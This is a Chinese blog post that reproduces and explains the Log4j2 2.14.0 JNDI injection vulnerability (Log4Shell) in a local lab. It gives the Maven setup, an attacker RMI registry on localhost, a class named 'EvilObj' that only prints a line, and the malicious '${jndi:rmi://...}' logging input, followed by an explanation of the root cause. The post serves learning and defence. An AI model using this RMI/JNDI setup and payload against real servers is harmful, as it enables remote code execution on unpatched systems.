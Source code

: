 Log4j漏洞复现及原理

# 1.背景

之前在公司收到Log4j2爆出一个重大漏洞，公司有大部分应用使用到了Log4j的2.14.0以下的版本，全公司内部程序员收到消息之后，加班加点升级Log4j的版本到2.14.1（这个版本也不稳定），在此记录一下。

# 2.Log4j的重大漏洞

我们复现一下Log4j 2.14.0版本中出现的安全问题。首先，我们新建一个Maven项目，引入Log4j的jar包

```XML
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>log4j2Demo</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.0</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.0</version>
        </dependency>
    </dependencies>

</project>
```



在resource目录下定义了log4j2.xml，表示log4j2的日志配置信息

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!--status用来指定log4j本身的打印日志的级别.-->
<Configuration status="WARN">
    <Appenders>
        <!--指定打印到控制台的日志格式-->
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <!-- 默认打印日志级别为 info -->
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```



接下来是攻击者的自定义类EvilObj，在类加载时执行static静态代码块

```java
package com.lx.rmi;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

/**
 * 在这里实现了ObjectFactory接口，主要是针对EvilObj类无法转换为ObjectFactory对象，其他Java版本中可能不存在这个问题
 * @Author: Xin Liu
 * @Date: 2022/2/15
 */
public class EvilObj implements ObjectFactory {
    static{
        System.out.println("在哪执行的");
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```



攻击者也实现了RMIServer（相当于注册中心）

```java
package com.lx.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: Xin Liu
 * @Date: 2022/2/15
 */
public class RMIServer {
    public static void main(String[] args) {
        try{
            Registry registry = LocateRegistry.createRegistry(1099);

            System.out.println("Create RMI Registry on port 1099");
            String url="localhost";
            Reference reference = new Reference("com.lx.rmi.EvilObj", "com.lx.rmi.EvilObj",url);
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("evil",referenceWrapper);
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```





在我们的服务端业务代码中我们使用到了log4j，用info()方法进行打印日志

```java
package com.lx;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

/**
 * @Author: Xin Liu
 * @Date: 2022/2/14
 */
public class Log4j2Test {
    private static final Logger LOGGER= LogManager.getLogger(Log4j2Test.class);

    public static void main(String[] args) {
        // 解决报错 The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        String userName="${jndi:rmi://localhost:1099/evil}";

        LOGGER.info("Hello,{}",userName);
    }
}
```



结果在服务端的控制台中执行EvilObj类加载的输出

![img](https://img-blog.csdnimg.cn/b3609b6f40c047fca37d5a48a0f03694.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAY2hlcmlzaGx4OTg=,size_20,color_FFFFFF,t_70,g_se,x_16)

#  3.漏洞原理分析

log4j的源码中执行了lookup方法，这个方法是导致本次漏洞的根因。

JNDI Naming Reference，命名引用

当有客户端通过lookup("refObj")获取远程对象时，获取的是一个**Reference存根(Stub)**，由于是Reference存根，所以客户端会先在本地classpath中去检查是否存在refClassName，如果不存在则去指定的url中动态加载，在**log4j的服务器**上执行加载**类的实例化**操作（静态变量、静态代码块）

黑客在自己的客户端启动一个带有恶意代码的rmi服务，通过服务端的log4j的漏洞，向服务端的jndi context lookup的时候连接自己的rmi服务器，服务端连接rmi服务器执行lookup的时候会通过rmi查询到该地址指向的引用并且**本地实例化这个类**，所以在类中的构造方法或者静态代码块中写入逻辑，就会在**服务端（jndi rmi过程中的客户端）**实例化的时候执行到这段逻辑，导致**jndi注入**。

# 4.参考视频

[Log4j高危漏洞！具体原因解析！全网第一！_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1FL411E7g3?from=search&seid=4352282737714061308&spm_id_from=333.337.0.0)
